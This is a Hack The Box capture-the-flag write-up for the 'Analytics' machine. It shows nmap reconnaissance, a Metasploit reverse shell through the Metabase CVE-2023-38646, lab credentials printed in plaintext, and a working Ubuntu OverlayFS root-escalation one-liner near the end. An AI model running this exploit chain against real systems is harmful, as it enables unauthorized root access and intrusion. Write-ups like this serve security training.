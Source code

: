 Analytics is an *easy* HTB machine.
## Reconnaissance
Used `nmap` to get an overview of listening ports and a more involved scan for port 80:
```zsh
sudo nmap {ip}
sudo nmap {ip} -p80 -sV -sC
```
```
PORT   STATE SERVICE
22/tcp open  ssh
.
.
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Added `analytical.htb` to our `/etc/hosts` file with `sudo sh -c 'echo "{ip} analytical.htb" >> /etc/hosts'` and opened the page in our browser.

Found a static site with no interesting elements on first look, except for 'Log In' button, which took us to `data.analytical.htb`. This page contained a login-screen for a service called `Metabase`. 

Upon searching for known exploits, we found [CVE 2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646) which allows RCE on versions <= 0.46.6.1 or 1.46.6.1 and a [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/metabase_setup_token_rce.rb) that exploits it. 

## Foothold
Using `msfconsole` and supplying the ip and port, we checked whether the service was vulnerable and we setup a reverse shell. We got a shell as the user `metabase`, which did not have any flag in their directory. We needed to move horizontally to another user with the flag.

## Horizontal movement and user pwn
Enumeration revealed that the environment variables (view with `env`) contained plaintext login details for a user called `metalyzer` in the `Metabase` database. `metalytics@analytical.htb::An4lytics_ds20223#`
We logged in through the webbrowser and indeed got into the database portal. There seemed to be nothing of interest in this database.

We logged in on the machine using `ssh` and the same credentials. With a shell as user `metalyzer` we found the `user.txt` flag.
## Privesc
Enumeration revealed that the kernel version was vulnerable for privelege escelation from user to root. Explanation and steps [on this reddit post](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/). Edited the code to `cat` out the `root.txt` flag.
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /root/root.txt
")'
```
